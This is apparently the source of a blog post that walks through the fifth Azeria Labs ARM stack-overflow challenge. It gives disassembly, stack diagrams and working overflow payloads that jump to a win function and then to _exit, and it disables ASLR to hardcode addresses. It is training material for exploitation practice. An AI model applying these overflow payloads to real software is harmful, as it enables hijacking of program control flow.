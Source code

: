 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part V"
---
```


[Fifth challenge](https://github.com/azeria-labs/ARM-challenges)
with a small introduction to *process continuation*.<!--more-->


## Planning the exploit

```nasm
pwndbg> pdisass &main
 ► 0x10464 <main>       push   {fp, lr}
   0x10468 <main+4>     add    fp, sp, #4
   0x1046c <main+8>     sub    sp, sp, #0x48
   0x10470 <main+12>    str    r0, [fp, #-0x48]
   0x10474 <main+16>    str    r1, [fp, #-0x4c]
   0x10478 <main+20>    sub    r3, fp, #0x44
   0x1047c <main+24>    mov    r0, r3
   0x10480 <main+28>    bl     #gets@plt <gets@plt>

   0x10484 <main+32>    mov    r0, r3
   0x10488 <main+36>    sub    sp, fp, #4
   0x1048c <main+40>    pop    {fp, pc}
```

`sub r3, fp, #0x44` means that the buffer begins 0x44 bytes from `fp`,
the begin of the stack frame.

As we saw [previously](/book-of-gehn/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
the stack frame includes the *previous* value
of `fp` but not `lr` which it is *immediately below*.

So a buffer overflow of 0x44 bytes will overwrite the stored `fp` and an
overflow of 0x48 will overwrite `fp` and `lr`.

If we do the latter, the function `main` will jump to
our own code on *return*.

{% marginnote
'The left diagram shows the stack from lower
addresses (left) to higher addresses (right) and the `main`&apos;s and
`__libc_start_main`&apos;s stack frames (`main` and `start` for short)
' %}


```nasm
    main --------------v------ start
.......   fp      lr   |  ??   ??   ??   ??
```

As you can see the `fp` and `lr` are stored in the stack as well as an
unknown local variables of `__libc_start_main`.

When the overflow occurs this is the result:

```nasm
    main ---------------v----- start
.......   fp      lr    | ??   ??   ??   ??         (pre-exploit)
    main ---------------v----- start
AAAAAAA   BB      addr1 | ??   ??   ??   ??         (overflow)
```

No more crazy stuff is needed here, we can jump to `win` (`addr1 == 0x1044c`)
directly.

## Exploit level 1

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x4c\x04\x01\x00' | ./stack4
code flow successfully changed
Segmentation fault
```

Yeah! but that segfault looks sloppy.

## A more *polite* exploit

Once `win` executes it will pop from the stack the stored
`lr` and set it into `pc`.

We didn't call `win` with `bl` or similar so the `lr` was never
set correctly and the value pushed in the stack by `win` was garbage.

When `win` returns will jump to who-knows-where.

```nasm
    main ---------------v----- start
.......   fp      lr    | ??   ??   ??   ??         (pre-exploit)
    win ----------------v----- start
          BB      ??    | ??   ??   ??   ??         (win called)
                  ^
                  ret address of win
```

And if we don't jump to `win` exactly?

We could jump to the second instruction of `win`:
we will be **skipping** the `push`.

```nasm
pwndbg> pdisass &win
   0x1044c <win>        push   {fp, lr}
 ► 0x10450 <win+4>      add    fp, sp, #4
   0x10454 <win+8>      ldr    r0, [pc, #4]
   0x10458 <win+12>     bl     #puts@plt <puts@plt>

   0x1045c <win+16>     pop    {fp, pc}
```

In this way we can *emulate* the `push` of `fp` and `lr` adding 8 bytes
to our payload.

```nasm
    main ---------------v--------- start
.......   fp      lr    | ??    ??      ??   ??      (pre-exploit)
    main ---------------v--------- start
AAAAAAA   BB      addr1 | CC    addr2   ??   ??      (overflow extended)
                        v--------- start
          ??      ??    | CC    addr2 | ??   ??      (win called without push)
        ------ win -------------------^
```

So now we control where `win` will return: `addr2`.

## Planning a controlled exit

An ideal situation would make the program continue running after
exploiting it, known as
[process continuation shellcode](https://azeria-labs.com/process-continuation-shellcode/)
but it is too complex for now.

The simplest thing is to call
[`_exit`](https://linux.die.net/man/2/_exit)
a thin glib wrapper of [`exit_group`](https://man7.org/linux/man-pages/man2/exit_group.2.html)
syscall that exits the process and its threads.

```nasm
pwndbg> pdisass &_exit
 ► 0xb6f1b934 <_exit>       push   {r7, lr}
   0xb6f1b938 <_exit+4>     mov    r2, r0
   0xb6f1b93c <_exit+8>     mov    r7, #0xf8
   0xb6f1b940 <_exit+12>    svc    #0
   0xb6f1b944 <_exit+16>    cmn    r0, #0x1000
   0xb6f1b948 <_exit+20>    bhi    #_exit+68 <_exit+68>
```

The `svc #0` is what it triggers the syscall. In Arm 32bits the
instruction is `swi` but the disassembler renames it to the newer name:
*supervisor call*.

The syscall number is passed to the kernel via `r7` as mentioned in [man
syscall(2)](https://man7.org/linux/man-pages/man2/syscall.2.html).

In our case [0xf8 is the syscall number](https://github.com/torvalds/linux/blob/v4.17/arch/arm/tools/syscall.tbl#L265)
of
[`exit_group`](https://man7.org/linux/man-pages/man2/exit_group.2.html).

## Exploit level 2

We are going to cheat a little and disable ASLR so we can hardcode
the address of `_exit` (0xb6f1b934)

```shell
pi@raspberrypi:~$ setarch linux32 --addr-no-randomize /bin/bash
(aslr disabled) pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x50\x04\x01\x00BBBB\x34\xb9\xf1\xb6' | ./stack4
code flow successfully changed

(aslr disabled) pi@raspberrypi:~$ echo $?
31

(aslr disabled) pi@raspberrypi:~$ exit
exit
```

As you can see the return code of the process was 31. I corroborated
with a debugger the value of the registers before the syscall and `r0`
was 31 as expected.

Instead of jumping to `_exit` we could jump before to a piece of code
--known as gadget-- that sets `r0` to zero and then jump to `_exit`.

But that's for another post.


<!-- stuff -->

<script>
function fix_asm_syntax(ev) {
    // pip install selectq
    //   cond = (val('text()') == 'blt') | (val('text()') == 'b') | (val('text()').startswith('mov')) | ...
    //   div = sQ.select('div', attr('class').contains('language-nasm'))
    //   xpath = div.select('span', cond)

    // Make some instructions "keywords"
    var xpath = ".//div[contains(@class,'language-nasm')]//span[(((text() = 'blt') or (text() = 'b')) or starts-with(text(), 'mov')) or starts-with(text(), 'ldm') or starts-with(text(), 'stm') or starts-with(text(), 'ldr') or starts-with(text(), 'bx') or starts-with(text(), 'bl') or starts-with(text(), 'bne') or starts-with(text(), 'mvn') or starts-with(text(), 'beq') or starts-with(text(), 'svc') or starts-with(text(), 'cmn') or starts-with(text(), 'bhi')]";
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.add('k'); // keyword
        el.classList.remove('n'); // noun
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-nasm')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-python')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }
}

document.addEventListener('DOMContentLoaded', fix_asm_syntax);
</script>

